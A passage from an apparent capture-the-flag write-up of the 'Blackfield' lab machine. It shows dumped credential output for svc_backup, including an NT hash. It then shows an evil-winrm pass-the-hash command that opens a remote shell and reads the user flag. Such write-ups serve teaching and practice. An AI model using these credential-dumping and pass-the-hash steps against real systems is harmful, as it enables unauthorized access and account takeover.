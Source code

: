 ~~~
username svc_backup                                       
domainname BLACKFIELD                                                                                                
logon_server DC01                                                                                                                                                                                                                          
logon_time 2020-02-23T18:00:03.423728+00:00                                                                                                                                                                                                
sid S-1-5-21-4194615774-2175524697-3563712290-1413                                                                   
luid 406458                                         
        == MSV ==                                                                                                                                                                                                                          
                Username: svc_backup                                                                                                                                                                                                       
                Domain: BLACKFIELD                                                                                                                                                                                                         
                LM: NA                                                                                                                                                                                                                     
                NT: 9658d1d1dcd9250115e2205d9f48400d                                                                                                                                                                                       
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c                                                       
        == WDIGEST [633ba]==                                                                                         
                username svc_backup  
                domainname BLACKFIELD                                                                                
                password None                             
        == SSP [633ba]==
~~~
{: .language-bash}

The first entry in the output gives me a NTLM hash, if i want to i could try cracking the hash, but i will try to get a shell as the user *svc_backup* with Evil-Winrm using the Pass-The-Hash technique, using the hash to authenticate myself. 

~~~
┌──(kali㉿kali)-[~/boxes/blackfield]                             
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d                                 

Evil-WinRM shell v2.3                                                                                
Info: Establishing connection to remote endpoint                 

*Evil-WinRM* PS C:\Users\svc_backup> cd Desktop                                                                        
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> more user.txt                                  
2765c9f24af1c3f1188e074988b1a493 
~~~
{: .language-bash}
